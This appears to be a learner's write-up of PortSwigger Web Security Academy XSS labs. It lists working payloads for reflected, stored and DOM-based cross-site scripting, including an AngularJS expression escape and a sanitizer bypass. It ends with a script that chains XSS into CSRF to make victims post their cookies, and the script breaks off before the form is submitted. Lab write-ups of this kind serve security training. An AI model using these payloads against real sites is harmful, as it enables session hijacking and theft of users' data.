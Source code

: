 # Reflected
1. This lab has a XSS vulnerability in the search term, which gets reflected in the `search` GET parameter. This lab can be solved by searching for `<script>alert()</script>`

# Stored
1. This lab has a XSS vulnerability in the post comment functionality. This lab can be solved by submitting a comment with the contents `<script>alert()</script>`

# DOM
1. This lab has a XSS vulnerability where the search term was being injected into an image's `src` attribute using the `document.write` function. As such, the lab could be solved by escaping the image tag and injecting a script as follows: `"><script>alert()</script>`
2. This lab has a XSS vulnerability where product pages search for a `storeId` GET parameter and places its value inside an `option` tag if it is provided. As such, adding the following payload to the end of a product page triggers the XSS: `</option><script>alert()</script>`
3. This lab has XSS in the search functionality where the search term is retrieved from the URL and placed within the search result title using the `innerHtml` attribute. As such, this can be exploited using a payload such as `<img src=x onerror=alert()>`
4. This lab has XSS on the feedback page where the `href` attribute of the back link is set dynamically using jQuery's `attr` function with the `returnPath` GET parameter. As such, the following value in the URL causes the back link to alert the page cookies: `?returnPath=javascript:alert(document.cookie)`
5. This lab has XSS where jQuery attempts to focus on an element from the `hashchange` event. This can be triggered with controlled values from an iframe in order to achieve XSS as follows: `<iframe src="https://ac501faa1e93962ec05e556f002700d9.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'">` (Note, this exploit will repeatedly open up the page print dialog)
6. This lab has XSS due to AngularJS' `ng-app` directive. On the search page, user input is reflected within an `ng-app` context and as such can be interpreted as an angular directive if placed within double curly braces. As such, searching for the following will trigger XSS: `{{$on.constructor('alert(1)')()}}`
7. This lab has XSS where the search term is reflected back from the server, then used in an `eval` call. The reflected string is enclosed within a JSON value and quotes are being escaped, but backslashes are not. As such, the following search will trigger the XSS: `\"};alert()//`
8. This lab has XSS where the server stores unsanitized versions of the comments and they are loaded onto the page using `innerHtml`. While the values are passed through a sanitization function, the sanitization improperly uses the javascript `replace` function without the global flag. As a result, on the first instances of `<` and `>` are escaped and a working payload is something such as `<><img src=x onerror=alert()>`

# Exploiting XSS
1. This lab has XSS in the comment body field. It is meant to be solved by exfiltrating `document.cookie` and changing the cookie in order to hijack another user's session, but I cannot do this without having Burp Professional. Instead, I had to perform CSRF via XSS in order to make a payload that causes victims to make a comment with their cookies in it. It is worth noting that the lab does properly use CSRF tokens, but XSS can be used to get around that issue. The payload is the following:
```
<form action="/post/comment" method="POST" enctype="application/x-www-form-urlencoded" id="csrf">
<input type="hidden" name="csrf" id="csrf_token">
<input type="hidden" name="postId" value="1">
<input type="hidden" rows="12" cols="300" name="comment" id="csrf_value"></textarea>
<input type="hidden" type="text" name="name" value="name">
<input type="hidden" type="email" name="email" value="email@email.com">
</form>
<script>
var csrf_token = "";
var xhr = new XMLHttpRequest();
xhr.open('GET', 'https://acde1fff1f2f5b60c035a8fd000f0009.web-security-academy.net/login', false);
xhr.onload = function () {
	if (xhr.readyState === xhr.DONE) {
		if (xhr.status === 200) {
			csrf_token = /name="csrf" value="([^"]+)"/.exec(xhr.responseText)[1];
		}
	}
};
xhr.send(null);
document.getElementById('csrf_token').value = csrf_token;
```